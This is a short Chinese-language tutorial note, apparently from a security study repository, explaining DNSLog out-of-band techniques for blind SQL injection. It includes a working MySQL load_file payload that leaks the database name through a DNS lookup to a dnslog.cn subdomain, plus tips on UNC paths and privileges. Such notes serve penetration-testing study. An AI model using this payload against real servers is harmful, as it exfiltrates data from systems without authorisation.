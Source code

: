 # DNSlog 渗透

DNSLog渗透是一种利用DNS（域名系统）协议进行攻击和信息收集的技术。其原理基于DNS协议的特性，即将域名解析为IP地址。攻击者可以创建一个恶意的DNS服务器，当受害者的计算机尝试解析特定的域名时，DNS服务器会记录请求，并将请求信息发送给攻击者，从而实现信息收集。

当我们发送给服务器的代码会执行但缺少回显的时候，dnslog 相当于给了我们一个回显的窗口。我们的目标就是，让目标服务器把我们的代码执行以后的返回值和域名连接起来，对指定域名进行访问从而留下痕迹。

1. 在 www.dnslog.cn 中搞一个域名，比如说这里搞到的是：sy119q.dnslog.cn

2. 构造 sql 语句：

3. ```sql
   select load_file(concat("//",(select database()),".sy119q.dnslog.cn/anyfile.txt"))
   ```

4. 注意：不要漏掉中间的 “.”，也不要忘了再最后加一个文件的名字。看到页面打着转转就知道大概率成功了，因为你的文件名是乱填的，它不可能找得到

5. 点击 dnslog 刷新按钮，即可看到目标服务器的请求



load_file() 既可以读取本机文件（看对方有没有放开这个权限），也可以读取互联网上的文件

似乎只能用于windows服务器上

双斜杠可以改成 4 个反斜杠

双反斜杠代表Microsoft Windows通用命名约定（UNC）的文件和目录路径格式利用任何以下扩展存储程序引发DNS地址解析，4 个反斜杠是因为考虑转义因素

需要打开文件读写权限
